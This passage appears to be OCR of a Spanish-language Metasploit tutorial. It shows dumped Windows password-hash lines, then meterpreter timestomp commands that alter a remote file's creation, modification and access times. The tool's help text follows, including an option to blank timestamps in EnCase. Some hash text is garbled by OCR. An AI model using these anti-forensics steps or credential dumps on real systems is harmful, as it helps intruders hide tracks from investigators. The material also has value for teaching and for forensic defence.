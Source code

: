 ```
postgres:1005:f554be491f92036e46cfff875cbe0lld:2b11a19bd88a25d3e2d07cb7cc362044:::

SUPPORT_388945a0#:1002:aad3b435b51404eelld3b435b51404ee:5376b4d52202b447093e4651b63d1572:::
```

Por otro lado con timestomp se pueden modificar los atributos relacionados con las fechas de creación y modificación de un fichero en la maquina remota.

Con la siguiente instrucción se puede cambiar la fecha de creación del fichero.

```
meterpreter > timestomp C:\AUTOEXEC.BAT -c "10/10/2010 10:10:10"

[*] Setting specific MACE attributes on C:AUTOEXEC.BAT

Con la siguiente instrucción se puede cambiar la fecha de modificación del fichero.

meterpreter > timestomp C:\AUTOEXEC.BAT -m "10/10/2010 10:10:10"

[*] Setting specific MACE attributes on C:AUTOEXEC.BAT

Con la siguiente instrucción se puede cambiar la fecha de ultimo acceso del fichero.

meterpreter > timestomp C:\AUTOEXEC.BAT -a "10/10/2010 10:10:10"

[*] Setting specific MACE attributes on C:AUTOEXEC.BAT

Las opciones suministradas por el comando son:

meterpreter > timestomp -h

Usage: timestomp file_path OPTIONS

OPTIONS:

-a <opt> Set the “last accessed” time of the file

-b Set the MACE timestamps so that EnCase shows blanks

-c <opt> Set the “creation” time of the file

-e <opt> Set the “mft entry modified” time of the file

-f <opt> Set the MACE of attributes equal to the supplied file

-h Help banner

-m <opt> Set the “last written” time of the file

-r Set the MACE timestamps recursively on a directory

-v Display the UTC MACE values of the file

-z <opt> Set all four attributes (MACE) of the file
```